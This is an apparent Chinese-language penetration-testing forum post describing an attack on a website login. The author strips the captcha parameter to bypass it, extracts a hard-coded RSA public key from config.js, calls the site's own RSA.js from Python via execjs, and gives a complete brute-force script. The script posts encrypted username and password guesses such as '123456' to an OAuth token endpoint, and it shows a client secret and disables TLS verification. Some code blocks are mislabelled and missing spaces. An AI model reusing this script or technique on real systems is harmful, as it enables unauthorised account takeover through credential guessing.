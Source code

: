 某网站登录的时候如下：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-cb74758db11e49bc07bdff98b4139b89a8ae37dd.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-cb74758db11e49bc07bdff98b4139b89a8ae37dd.png)

然后我去掉`j_authcode`以及一些无用参数，可以绕过图形验证码  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-f63a3c5b521bf408584ab2b05d268c0f5632e5b2.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-f63a3c5b521bf408584ab2b05d268c0f5632e5b2.png)

然后这样就可以进行爆破了。但是我们可以看到`username`和`password`均经过加密，这究竟是什么加密呢？我们来看看前端代码。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-56dda67491c9b454beac4e23ca332211c1d1e4ae.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-56dda67491c9b454beac4e23ca332211c1d1e4ae.png)

可以看到这里是RSA加密。然后通过断点查看`exponent`和`modulus`的值。  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-05252dfe9c642445702e352f0085e5c64c29ad2f.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-05252dfe9c642445702e352f0085e5c64c29ad2f.png)

值是固定的，搜索后发现就存储在`config.js`中，也就是说RSA公钥为`modulus`。  
但这是一个256位公钥的RSA加密，在其他环境中几乎找不到这种加密项目，而js中有`RSA.js/Barrett.js/BigInt.js`这么一个早期项目。这种时候就需要用python去调js代码来进行加密。

先写出js加密的代码来看看效果：

```php
<script src="./rsa/RSA.js" type="text/javascript"></script>
<script src="./rsa/BigInt.js" type="text/javascript"></script>
<script src="./rsa/Barrett.js" type="text/javascript"></script>
<script src="./rsa/config.js" type="text/javascript"></script>
<script>
functiona(paramStr){
    setMaxDigits(130);
    key = new RSAKeyPair(exponent, "", modulus); 
    return encryptedString(key,encodeURIComponent(paramStr));
    }
qqq= a("admin");
alert(qqq);
</script>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-e5b0fdf739e5559e9c96f6d8c81391f47efbdd49.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-e5b0fdf739e5559e9c96f6d8c81391f47efbdd49.png)  
这里可以看到和Burp Suite里是一模一样，然后把4个js带html里的js代码合并在同一个文件里，用python的`execjs`库去调。

```php
import execjs

defrsa(str):
    file = 'RSA.js'
    ctx = execjs.compile(open(file).read())
    js = 'a("'+str+'")'
    params = ctx.eval(js)
    return params
print(rsa("admin"))
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-e6b6ac8f6a490415da5f59398531fdcdc43a4e95.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-e6b6ac8f6a490415da5f59398531fdcdc43a4e95.png)  
最后写出来爆破的脚本：

```php
import requests
import execjs

requests.packages.urllib3.disable_warnings()
defurlpost(username,password):
    rusername = rsa(username)
    rpassword = rsa(password)
    url = "https://x.com/oauth/token"
    header = {"User-Agent":"Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:79.0)Gecko/20100101 Firefox/79.0",
          "X-Requested-With": "XMLHttpRequest",
          "Content-Type": "application/x-www-form-urlencoded"
          }
    cookie = {}
    data = {"username":rusername,
            "password":rpassword,
            "grant_type":"password",
            "scope":"service",
            "client_id":"spm",
            "client_secret":"sinoprof"
            }
    r =requests.post(url,cookies=cookie,headers=header,data=data,allow_redirects=False,verify=False)
    print(r.status_code)
    if r.status_code == 200:
        print(username+password+"success")
        exit()
    else:
        print(username+password+"error")

defrsa(str):
    file = 'RSA.js'
    ctx = execjs.compile(open(file).read())
    js = 'a("'+str+'")'
    params = ctx.eval(js)
    return params

folist= open('user.txt','r')
for i in folist.readlines():
    i = i.replace('\n','')
    urlpost(i,i+"!@#456")
    urlpost(i,i+"!@#123")
    urlpost(i,"123456")
```

最终效果如下图所示：  
[![](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-620b4561cb25cc5ac0d24ff8c6b1a0debaebde29.png)](https://shs3.b.qianxin.com/attack_forum/2021/06/attach-620b4561cb25cc5ac0d24ff8c6b1a0debaebde29.png)